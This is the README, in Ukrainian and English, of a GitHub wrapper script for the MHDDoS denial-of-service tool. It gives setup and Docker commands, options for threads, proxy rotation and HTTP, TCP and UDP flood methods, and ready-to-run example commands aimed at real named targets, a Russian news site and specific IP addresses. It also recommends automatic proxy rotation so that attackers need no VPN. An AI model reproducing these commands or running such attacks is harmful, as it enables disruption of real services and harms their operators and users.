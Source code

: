 ## Інтро

Скрипт-обгортка для запуску потужного DDoS інструмента [MHDDoS](https://github.com/MHProDev/MHDDoS).

- **Не потребує VPN** - автоматично скачує і підбирає робочі проксі для заданих цілей, періодично їх оновлюючи
- Атака **декількох цілей** з автоматичним балансуванням навантаження
- Використовує **різні методи для атаки** і змінює їх в процесі роботи
- Простий та зрозумілий інтерфейс з іменованими параметрами

## Intro

Wrapper script for running [MHDDoS](https://github.com/MHProDev/MHDDoS)

- **No VPN required** - automatically downloads and selects working proxies for given targets
- Support for **multiple targets** with automatic load-balancing
- Uses multiple attack methods and switches between them
- Simpler interface with named arguments

## Setup | Встановлення

### Python

    git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git
    cd mhddos_proxy
    git clone https://github.com/MHProDev/MHDDoS.git
    python3 -m pip install -r MHDDoS/requirements.txt

### Docker

Встановіть і запустіть Docker

- Windows: https://docs.docker.com/desktop/windows/install/
- Mac: https://docs.docker.com/desktop/mac/install/
- Ubuntu: https://docs.docker.com/engine/install/ubuntu/


      docker pull portholeascend/mhddos_proxy:latest

## Running | Запуск

### Docker

    docker run -it portholeascend/mhddos_proxy:latest COMMAND

### Python

    python3 runner.py COMMAND

## Usage | Використання

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-p PERIOD]
                     [--proxy-timeout TIMEOUT]
                     [--rpc RPC] 
                     [--udp-threads UDP_THREADS]
                     [--debug]
                     [--http-methods METHOD [METHOD ...]]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -t, --threads 1000     Total number of threads (default is 100 * CPU Cores)
      -p, --period 300       How often to update the proxies (default is 300)
      --proxy-timeout 2      How many seconds to wait for the proxy to make a connection.
                             Higher values give more proxies, but with lower speed/quality.
                             Parsing also takes more time (default is 2)

      --debug                Enable debug output from MHDDoS
      --rpc 50               How many requests to send on a single proxy connection (default is 50)
      --udp-threads 1        Threads to run per UDP target (default is 1)

      --http-methods GET     List of HTTP(s) attack methods to use.
                             (default is GET, STRESS, BOT, DOWNLOADER)
                             Refer to MHDDoS docs for available options
                             (https://github.com/MHProDev/MHDDoS)

# Examples | Приклади

For HTTP(S) targets, attack method is randomly selected from `--http-methods` option (see above for the default).

For TCP targets, attack method is TCP FLOOD

For UDP targets, attack method is UDP FLOOD.   
**VPN IS REQUIRED FOR UDP**, proxying is not supported.  
Separate parameter `--udp-threads` controls the load, the default is 1, **INCREASE SLOWLY**, be careful

Для цілей HTTP(S) метод атаки вибирається випадковим чином із параметра `--http-methods` (замовчування див. вище).

Для цілей TCP методом атаки є TCP FLOOD

Для цілей UDP методом атаки є UDP FLOOD.  
**Для UDP ПОТРІБЕН VPN**, проксі не підтримується.  
Окремий параметр `--udp-threads` задає навантаження, за замовчуванням - 1, **ЗБІЛЬШУВАТИ ПОВІЛЬНО**, будьте обережні

    python3 runner.py https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53

    docker run -it portholeascend/mhddos_proxy https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53

Target specification

- HTTP(S) by URL - `https://tvzvezda.ru` or `http://tvzvezda.ru`
- HTTP by IP:PORT - `5.188.56.124:9000`
- TCP by IP:PORT - `tcp://194.54.14.131:4477`
- UDP by IP:PORT - `udp://217.175.155.100:53` - **REQUIRES VPN**

Increase load | Збільшити навантаження (підбирайте самостійно, замовчування - 100 на кожне ядро CPU)

    python3 runner.py -t 1000 https://tvzvezda.ru

View DEBUG info (traffic) | Переглянути інформацію про хід атаки

    python3 runner.py https://tvzvezda.ru --debug

Change proxy update interval | Змінити частоту оновлення проксі

    python3 runner.py -p 600 https://tvzvezda.ru

Get more proxies (possibly lower quality) | Більше проксі, але гіршої якості

    python3 runner.py --proxy-timeout 5 https://tvzvezda.ru

Specific HTTP(S) attack method(s) | Обрати метод(и) для HTTP(S) атаки

    python3 runner.py https://tvzvezda.ru --http-methods CFB CFBUAM
